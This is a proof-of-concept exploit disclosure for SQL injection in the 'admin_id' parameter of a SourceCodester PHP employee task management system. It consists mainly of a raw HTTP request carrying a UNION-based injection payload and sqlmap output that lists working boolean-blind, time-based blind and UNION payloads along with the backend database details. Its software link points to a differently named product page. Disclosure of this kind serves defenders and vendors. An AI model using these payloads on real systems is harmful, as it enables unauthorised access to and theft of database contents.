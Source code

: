 # Exploit Title: employee task management system - SQLi

### Date: 
> March 15th, 2024

### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com

### Software Link:
> [employee task management system](https://www.sourcecodester.com/php/15371/auto-dealer-management-system-phpoop-free-source-code.html)
### Version:
> v 1.0
### URL:
> [/update-admin.php?admin_id=1](http://localhost/taskmatic/update-admin.php?admin_id=1)
### Proof of Concept:
Step 1. Go to URL edit: http://localhost/taskmatic/update-admin.php?admin_id=1
\
Step 2. Run with sqlmap

```
GET /taskmatic/update-admin.php?admin_id=-5619%27%20UNION%20ALL%20SELECT%20CONCAT%280x7170716271%2C%28CASE%20WHEN%20%28VERSION%28%29%20LIKE%200x254d61726961444225%29%20THEN%201%20ELSE%200%20END%29%2C0x7176707071%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--%20- HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/taskmatic/manage-admin.php
Cookie: PHPSESSID=au6ifo1ssaop7ilk8c4f09pj2j
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Connection: close
```

Step 3. sqlmap result

```
[20:03:10] [INFO] GET parameter 'admin_id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'admin_id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 50 HTTP(s) requests:
---
Parameter: admin_id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: admin_id=1' AND 4823=4823 AND 'fHuK'='fHuK

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: admin_id=1' AND (SELECT 2812 FROM (SELECT(SLEEP(5)))yoFD) AND 'eLUj'='eLUj

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: admin_id=-5229' UNION ALL SELECT CONCAT(0x7170716271,0x684d74644f51547249684d4d6a4c52687374496a74464b7a64634664425751574f56575873794e50,0x7176707071),NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[20:03:14] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.4.30, Apache 2.4.54
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```
